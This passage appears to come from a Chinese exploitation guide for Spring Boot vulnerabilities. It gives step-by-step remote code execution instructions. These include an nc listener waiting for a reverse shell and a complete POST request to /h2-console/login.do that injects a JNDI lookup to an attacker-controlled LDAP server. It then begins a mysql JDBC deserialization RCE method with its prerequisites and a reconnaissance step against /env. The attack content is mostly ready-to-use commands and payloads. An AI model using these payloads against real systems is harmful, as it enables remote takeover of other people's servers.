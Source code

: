 一般使用 nc 监听端口，等待反弹 shell

```bash
nc -lv 443
```



##### 步骤六：发包触发 JNDI 注入

根据实际情况，替换下面数据中的 `jsessionid=xxxxxx`、`www.example.com` 和 `ldap://your-vps-ip:1389/JNDIObject`

```bash
POST /h2-console/login.do?jsessionid=xxxxxx
Host: www.example.com
Content-Type: application/x-www-form-urlencoded
Referer: http://www.example.com/h2-console/login.jsp?jsessionid=xxxxxx

language=en&setting=Generic+H2+%28Embedded%29&name=Generic+H2+%28Embedded%29&driver=javax.naming.InitialContext&url=ldap://your-vps-ip:1389/JNDIObject&user=&password=
```



#### 漏洞分析：

​	[Spring Boot + H2数据库JNDI注入](https://mp.weixin.qq.com/s/Yn5U8WHGJZbTJsxwUU3UiQ)



#### 漏洞环境：

[repository/springboot-h2-database-rce](https://github.com/LandGrey/SpringBootVulExploit/tree/master/repository/springboot-h2-database-rce)

正常访问：

```
http://127.0.0.1:9096/h2-console
```



### 0x08：mysql jdbc deserialization RCE

#### 利用条件：

- 可以 POST 请求目标网站的 `/env` 接口设置属性
- 可以 POST 请求目标网站的 `/refresh` 接口刷新配置（存在 `spring-boot-starter-actuator` 依赖）
- 目标环境中存在 `mysql-connector-java` 依赖
- 目标可以请求攻击者的服务器（请求可出外网）



#### 利用方法：

##### 步骤一：查看环境依赖

GET 请求 `/env` 或 `/actuator/env`，搜索环境变量（classpath）中是否有 `mysql-connector-java`  关键词，并记录下其版本号（5.x 或 8.x）；

搜索并观察环境变量中是否存在常见的反序列化 gadget 依赖，比如  `commons-collections`、`Jdk7u21`、`Jdk8u20` 等；
